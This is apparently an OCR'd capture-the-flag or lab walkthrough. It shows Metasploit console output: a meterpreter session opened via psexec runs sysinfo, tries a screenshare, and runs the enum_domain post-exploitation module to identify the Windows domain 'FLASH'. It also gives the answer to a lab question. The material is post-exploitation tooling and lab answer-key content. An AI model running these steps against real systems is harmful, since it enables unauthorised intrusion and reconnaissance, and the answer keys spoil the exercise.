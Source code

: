 ```
[*] Opening player at: /root/irrmieor.html
[*] Streaming...
[-] Error running command screenshare: Rex::RuntimeError Current session was spawned by a service on Windows 8+. No desktops are available to screenshot.
meterpreter > [GFX1-]: Unrecognized feature ACCELERATED_CANVAS2D
[2024-01-24T02:28:53Z ERROR viaduct::backend::ffi] Missing HTTP status
[2024-01-24T02:28:53Z ERROR viaduct::backend::ffi] Missing HTTP status

meterpreter > sysinfo
Computer        : ACME-TEST
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 7
Meterpreter     : x64/windows
meterpreter > 
```
 
What is the target domain?   `FLASH`
```
msf6 exploit(windows/smb/psexec) > use post/windows/gather/enum_domain
msf6 post(windows/gather/enum_domain) > show options

Module options (post/windows/gather/enum_domain):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(windows/gather/enum_domain) > sessions -i

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ ACME  10.10.243.229:4444 -> 10.10
                                     -TEST                       .187.150:51632 (10.10.187.1
                                                                 50)

msf6 post(windows/gather/enum_domain) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/enum_domain) > run

[+] Domain FQDN: FLASH.local
[+] Domain NetBIOS Name: FLASH
[+] Domain Controller: ACME-TEST.FLASH.local (IP: 10.10.187.150)
[*] Post module execution completed
```
